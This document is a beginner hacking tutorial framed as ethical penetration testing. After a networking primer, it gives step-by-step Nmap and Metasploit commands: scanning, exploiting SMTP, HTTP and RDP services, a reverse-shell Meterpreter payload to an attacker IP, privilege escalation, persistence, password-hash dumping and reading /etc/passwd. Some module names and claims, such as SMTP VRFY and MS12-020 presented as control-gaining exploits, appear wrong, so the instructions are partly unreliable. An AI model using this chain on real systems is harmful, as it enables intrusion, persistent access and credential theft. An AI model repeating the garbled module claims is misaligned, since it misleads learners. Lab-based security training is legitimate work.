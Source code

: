  Comprehensive Guide to Hacking (for Educational Purposes Only)

Disclaimer: This guide is for ethical hacking and penetration testing only. Unauthorized access to networks and systems is illegal and punishable by law. Always ensure you have permission to test any network.

1. Introduction to How Computers Communicate

	•	Protocols: Computers communicate using network protocols (e.g., TCP/IP, HTTP, SMTP).
	•	TCP/IP (Transmission Control Protocol/Internet Protocol) is the basic communication language of the internet.
	•	HTTP (HyperText Transfer Protocol): Used for communication between web browsers and web servers.
	•	SMTP (Simple Mail Transfer Protocol): Used for sending emails.
	•	RDP (Remote Desktop Protocol): Used to remotely connect to and control a computer.

2. How Data is Transferred in Networks

	•	IP Addressing: Each device on a network is identified by an IP address.
	•	Public IP: Exposed to the internet.
	•	Private IP: Used within internal networks.
	•	Ports: These are gateways through which a device communicates on a network. Different services run on different ports, for example:
	•	HTTP: Port 80 (or 443 for HTTPS)
	•	SMTP: Port 25
	•	RDP: Port 3389
	•	TCP vs UDP: TCP is connection-oriented (reliable), while UDP is connectionless (faster but less reliable).

3. Setting Up Your Hacking Lab

	•	Use Kali Linux as your attacking machine.
	•	Set up virtual machines (VMs) with Vulnerable OS like Metasploitable, Windows XP, or Windows 7 for testing purposes.

Command to install necessary tools on Kali Linux:

sudo apt update && sudo apt install nmap metasploit-framework

Phase 1: Network Scanning

	•	Target: Discover open ports, services, and potential vulnerabilities.

4. Using Nmap for Network Scanning

Nmap is a powerful tool used to discover hosts and services on a network.

	•	Basic Network Scan: Discover active hosts and open ports.

nmap 192.168.1.1/24

	•	Service Version Detection:

nmap -sV 192.168.1.10

	•	Scan for All Ports: By default, Nmap scans the top 1000 ports. To scan all 65535:

nmap -p- 192.168.1.10

	•	Scan for Specific Ports (e.g., HTTP, SMTP, and RDP):

nmap -p 80,25,3389 192.168.1.10

	•	OS Detection:

nmap -O 192.168.1.10

5. Detailed Port Scanning

	•	HTTP (Port 80/443): Web service scanning.
	•	You can further test the web service using tools like Nikto to discover vulnerabilities.
	•	Run:

nikto -h http://192.168.1.10


	•	SMTP (Port 25): Mail service scanning.
	•	Enumerate email accounts:

nmap --script smtp-enum-users -p 25 192.168.1.10


	•	RDP (Port 3389): Remote Desktop Protocol.
	•	Look for vulnerabilities:

nmap --script rdp-vuln-ms12-020 -p 3389 192.168.1.10



Phase 2: Using Metasploit to Exploit Vulnerabilities

	•	Target: Use known vulnerabilities to exploit the target system.

6. Getting Started with Metasploit

	•	Open Metasploit:

msfconsole

	•	Search for Exploits:
You can search for specific exploits by service, CVE number, or platform:

search smb
search ms12-020

7. Metasploit Modules

	•	Auxiliary: Scanners, fuzzers, and other utilities.
	•	Exploits: Code that takes advantage of a vulnerability.
	•	Payloads: Code that runs after an exploit is successful, like a reverse shell.
	•	Encoders: Obfuscate the payload to avoid detection by antivirus.

8. Common Exploits for SMTP, HTTP, RDP

	•	SMTP Exploit Example:
	•	Target: Exploiting an SMTP vulnerability.
	•	Use:

use exploit/windows/smtp/smtp_vrfy

	•	Set options like the target IP:

set RHOST 192.168.1.10

	•	Run the exploit:

run


	•	HTTP Exploit Example:
	•	Target: Exploiting a web server vulnerability.
	•	Use:

use exploit/multi/http/struts2_content_type

	•	Set the target IP:

set RHOST 192.168.1.10
set RPORT 80

	•	Run the exploit:

run


	•	RDP Exploit Example:
	•	Target: Exploiting an RDP vulnerability.
	•	Use:

use exploit/windows/rdp/rdp_ms12_020

	•	Set the target IP:

set RHOST 192.168.1.10

	•	Run the exploit:

run



9. Payloads: Gaining Control

Once an exploit succeeds, you’ll need a payload to gain control of the target system.

	•	Setting up a reverse shell (where the target machine connects back to you):

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.20  # Your attacker's IP
set LPORT 4444


	•	Run the exploit:

run

If successful, you’ll have a Meterpreter session on the target machine, allowing you to run commands, upload/download files, and more.

10. Post-Exploitation: What to Do After a Successful Exploit

	•	Privilege Escalation: Once inside, you can try to escalate privileges to become an administrator or root.

getsystem


	•	Persistence: Ensure access to the system is maintained even if it reboots:

persistence -U -i 10 -p 4444 -r 192.168.1.20


	•	Collecting Information: Gather sensitive data, credentials, or files:

download /etc/passwd

or

hashdump



Wrap-Up: Targeting Vectors and Ethical Considerations

Target Vectors:

	•	Open Ports: Ports expose services that might be vulnerable.
	•	Weak Configurations: Misconfigurations can lead to exploitation.
	•	Unpatched Vulnerabilities: Systems not updated with security patches are prime targets.

Ethical Hacking Mindset:

Always remember that the goal of ethical hacking is to identify vulnerabilities and secure systems, not to harm or disrupt. Use these techniques responsibly and always with permission.

Final Thoughts

This guide covers the basics of scanning, exploiting vulnerabilities, and gaining access using tools like Nmap and Metasploit. Each phase of hacking—reconnaissance, scanning, exploitation, and post-exploitation—is essential to fully understand system vulnerabilities and how attackers operate. Remember, with great power comes great responsibility. Always practice ethical hacking!
